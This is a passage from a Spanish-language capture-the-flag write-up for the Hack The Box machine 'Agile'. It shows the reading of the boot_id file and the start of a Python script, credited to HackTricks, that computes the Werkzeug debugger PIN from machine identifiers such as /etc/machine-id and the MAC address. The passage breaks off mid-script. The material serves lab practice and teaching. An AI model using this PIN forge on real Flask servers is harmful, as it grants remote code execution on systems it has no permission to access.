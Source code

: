 Para esto, apuntamos a la ruta: **/proc/sys/kernel/random/boot_id**
![](/assets/img/HTB_Agile/A13.png)

### Obteniendo el Pin:

Si nos guiamos del codigo brindado por la misma documentacion de HackTricks:

```py
import hashlib
from itertools import chain
probably_public_bits = [
    'web3_user',# username
    'flask.app',# modname
    'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.5/dist-packages/flask/app.py' # getattr(mod, '__file__', None),
]

private_bits = [
    'UUID',# str(uuid.getnode()),  /sys/class/net/ens33/address
    'MACHINE ID'# get_machine_id(), /etc/machine-id
]

#h = hashlib.md5() # Changed in https://werkzeug.palletsprojects.com/en/2.2.x/changes/#version-2-0-0
h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')
#h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
```